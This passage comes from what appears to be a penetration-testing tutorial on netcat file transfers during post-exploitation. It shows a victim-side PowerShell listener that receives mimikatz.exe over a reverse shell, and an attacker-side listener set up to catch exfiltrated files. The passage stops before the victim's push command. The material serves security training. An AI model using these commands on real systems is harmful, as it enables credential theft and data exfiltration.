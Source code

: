Once our attacker machine has connected to the victim, it will show us the was connection was made on the listener.

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-167.png)

At this point, the prompt will hang on both the attacker and the victim. However, the transfer just takes a few seconds (maybe longer if its a large file) so to be safe, let the prompt hang for about a minute and then cancel out the connection on the attacker side using **CTRL + C**.

> We want to cancel the connection from the attacker side so that we don’t kill our shell on the victim. Once we cancel the connection, press enter a few times on the victim reverse shell and your prompt should reappear.

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-168.png)

Checking the file, we can see that it transferred in full after comparing the file size to the original on our attacker machine.

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-169.png)

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-170.png)

## **Transferring Files onto Victim Using Netcat: PowerShell**

Transferring files using netcat from a PowerShell prompt is virtually the same as using cmd.exe, except PowerShell does not like the ‘<‘ or ‘>’ characters so we need to change the syntax a bit as a work around.

On the victim (first):

```
C:\temp\nc.exe -nvlp 443 | Out-File -FilePath C:\temp\mimikatz.exe
```

From here onward, everything else is the same as the cmd.exe example: Push the file from the attacker, wait 1 minute, kill connection on attacker, and then check that file size matches on both sides.

## ****Transferring Files onto Attacker Using Netcat****

## **Transferring Files onto Attacker from Victim Using Netcat: cmd.exe**

Transferring (or exfiltrating) files from the victim back to our attacker machine using netcat is similar to pushing files from attacker to victim. This time the attacker is the listener and the victim will be the pusher.

On the attacker (first):

```
nc -nvlp 443 > supersecret.txt
```

On the victim (second):
